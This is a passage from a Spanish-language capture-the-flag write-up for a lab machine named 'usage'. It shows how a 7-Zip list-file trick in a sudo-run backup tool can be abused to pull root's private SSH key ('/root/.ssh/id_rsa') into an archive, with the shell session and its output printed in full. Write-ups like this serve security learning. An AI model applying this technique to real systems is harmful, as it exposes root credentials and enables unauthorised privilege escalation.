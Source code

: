 ![7z](/assets/writeups/usage/6.png)

Podemos intentar crear un archivo de inclusiones que contenga la llave SSH de root si es que existe, y luego hacer el backup:

```bash
xander@usage:/var/www/html$ ls -la
total 24
drwxrwxrwx  4 root   xander 4096 Aug 16 23:02 .
drwxr-xr-x  3 root   root   4096 Apr  2 21:15 ..
drwxrwxr-x 13 dash   dash   4096 Apr  2 21:15 project_admin
drwxrwxr-x 12 dash   dash   4096 Apr  2 21:15 usage_blog
-rw-rw-r--  1 xander xander   19 Aug 16 23:00 @uwu
-rw-rw-r--  1 xander xander   18 Aug 16 23:02 uwu
xander@usage:/var/www/html$ cat uwu
/root/.ssh/id_rsa
xander@usage:/var/www/html$ sudo /usr/bin/usage_management
Choose an option:
1. Project Backup
2. Backup MySQL data
3. Reset admin password
Enter your choice (1/2/3): 1

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,2 CPUs AMD EPYC 7763 64-Core Processor                 (A00F11),ASM,AES-NI)

Open archive: /var/backups/project.zip
--       
Path = /var/backups/project.zip
Type = zip
Physical Size = 54871526

Scanning the drive:
2984 folders, 17974 files, 114779112 bytes (110 MiB)        

Updating archive: /var/backups/project.zip

Items to compress: 20958

                                                                               
Files read from disk: 17974
Archive size: 54871913 bytes (53 MiB)
Everything is Ok
```
